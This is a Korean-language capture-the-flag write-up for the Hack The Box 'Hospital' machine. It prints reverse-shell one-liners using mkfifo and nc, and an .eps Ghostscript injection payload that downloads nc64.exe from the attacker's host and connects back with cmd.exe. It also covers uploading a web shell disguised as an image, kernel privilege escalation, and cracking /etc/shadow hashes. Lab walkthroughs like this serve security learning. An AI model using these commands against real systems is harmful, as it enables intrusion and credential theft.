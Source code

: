 ### 사용된 취약점: 파일 업로드 취약점, 커널 취약, Ghostscript command injection
### 초기 침투
![1](https://github.com/murphy701/security/assets/50907298/a5b8506f-5d2a-42ba-8c6a-da5b65643419)
- 스캔 결과
  - 443:webmail(roundcube)
  - 8080:login, upload
  - RPC
<br>
- 파일 업로드 부분이 있어서 웹쉘 업로드를 시도하였지만 거부당함
  - 이미지 파일로 만들고 올리는 것으로 시도함
  - touch exploit.jpg; echo test>exploit.jpg로 파일 생성
  - https://github.com/flozz/p0wny-shell?source=post_page-----887fd3d6fee9
    - 해당 웹쉘을 사용(코드만)
  - jpg에 소스코드를 넣고 exploit.jpg파일을 업로드 할 때 burpsuite에서 exploit.jpg를 phar로 변경하여 업로드
  - hospital.htb:8080/uploads.exploit.phar로 연결
 <br></br>
  - 연결한 상태에서 rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> 4444 >/tmp/f 로 reverse shell을 연결
  - kali에서는 nc -lnvp 4444로 대기
  - 연결 후 python3 -c 'import pty; pty.spawn("/bin/bash")'실행
    <br></br>

- 연결 이수 uname -r로 커널 버전 확인
- 취약한 버전의 커널인 것으로 확인되어 권한 상승을 시도함
  - CVE-2023-32629
  - 6.2.0, 5.19.0, 5.4.0 우분투에서 취약함
  - 마운트된 파일에 권한 있는 확장 속성 설정을 가능하게 하는 취약점
  - 저번 htb에서 비슷하고 본것 같은 권한상승 방법
- https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9
- 해당 웹쉘을 리버스 쉘로 연결된 상태에서 wget <ip>:8001/exploit.sh로 다운로드 시킨다.
- kali에서는 /var/www/html에 exploit.sh를 위치 시키고 python3 -m http.server 8001을 실행한다.
  - 실행하여 권한을 상승한다.
<br></br>

- cat /etc/shadow로 drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash를 확인할 수 있다.
  - pw hash는 sha-512인 것을 알 수 있다.
- john --wordlist=/usr/share/wordlists/rockyou.txt drwilliams.txt로 패스워드를 크랙할 수 있다.
  - 해시 값 크랙 시 파일에 넣을 값으로 shadow파일 전체를 넣는다
  - pw 해시값 만이 아닌 유효 시간 부분을 전부 넣는다
  <br></br>   
- https://10.10.11.241:443으로 접속
  - drwilliams와 크랙으로 얻은 pw로 접속
- mailbox 에서 찾은 내용으로 .eps, ghostscript가 있음
   - ghostscript가 파이프 문자의 권한 유효성 검사 실패로 임의 코드 실행하는 취약점
   - 이를 이용하여 .eps파일에 스크립트 삽입
  <br></br>
- https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----887fd3d6fee9
- nc.exe, nc64.exe와 해당 웹 쉘을 다운로드한다.
  - python3 -m http.server 8001
    - 주의 사항으로 파이썬 웹 서버 명령 실행 시 경로를 /var/www/html에서 실행해야 함
  - python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.24:8001/nc64.exe -o nc.exe" --filename file.eps
    - 해당 명령으로 file.eps에 페이로드를 삽입
- 이후 메일에 file.eps파일을 첨부하여 보내면 해당 서버에 nc64.exe를 다운로드 시킴
<br></br>
- nc64.exe를 다운로드 시킨 상태에서 해당 명령으로 리버스 쉘을 얻는 파일을 다시 만든다
- python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe <ip> 1111 -e cmd.exe" --filename file.eps
  - nc -lnvp 1111로 연결을 기다리고 메시지에 새로운 file.eps를 보내면 리버스 쉘을 획득할 수 있다.
- 이후에 Desktop에서 type user.txt를 이용하여 플래그 값을 출력한다
  <br></br>
### 권한 상승
- documents에서 ghostscript.bat에서 pw를 찾을 수 있다.
  - type ghostscript.bat
- 해당 pw를 이용하여 rpc연결을 시도한다.
  - drwilliams와 찾은 pw를 이용
  - rpcclient -U "drbrown" hospital.htb
### querydispinfo 실행
![querydispinfo](https://github.com/murphy701/security/assets/50907298/5efc379f-077f-466c-abc5-3d7abecc44ab)
- desc 부분에 admin과 guest가 built-in account for ~ the computer/domain이 설명 되어 있음
  - 어드민 정보와 게스트 정보가 같은 도메인에 공유 되어 있음
    - 윈도우에서 흔한 것으로 같은 도메인에서 관리됨
    - 같은 pc에 존재하는 것으로 추정
<br></br>
- 기존에 리버스 쉘로 연결 되어 있던 클라이언트 pc에서 C:\xampp\htdocs에 powny 웹쉘을 업로드
  - curl <ip>:8001/exploit.php -o shell.php
- https://hospital.htb/shell.php로 접속 시 쉘을 얻을 수 있음
  - whoami 실행 시 nt authority\system 결과가 출력되며 권한 상승을 시킨 것을 알 수 있음
- C:\Users\Administrator 에서 root.txt를 읽을 수 있게 됨
<br></br>
### 알게 된 점
- 파이썬으로 웹 서버 실행하여 파일을 다운로드 하게 할 때 /var/www/html에서 python3 -m http.server를 실행해야 정상적으로 작동한다.
